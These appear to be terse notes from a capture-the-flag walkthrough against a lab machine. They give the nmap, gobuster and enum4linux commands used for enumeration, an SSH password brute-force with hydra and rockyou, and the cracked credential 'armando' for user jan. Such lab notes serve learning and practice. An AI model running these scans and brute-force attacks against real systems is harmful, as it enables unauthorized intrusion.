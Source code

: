 use nmap
```bash
nmap -sV -sC 10.10.170.85
```

open webserver(80)
enumerate with gobuster
```bash
gobuster dir -u http://10.10.170.85 -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
```
found /development/ with some info about

use enum4linux to enumerate the smb
```bash
enum4linux 10.10.170.85
```
let it run. get two user
- jan
- kay
bruteforce jan password with hydra
```bash
hydra -l jan -P /home/kali/rockyou.txt ssh://10.10.170.85
```
get password armando

login to the server.

upload(download) enumeration apps.
[[Linux Priv Esc/General]]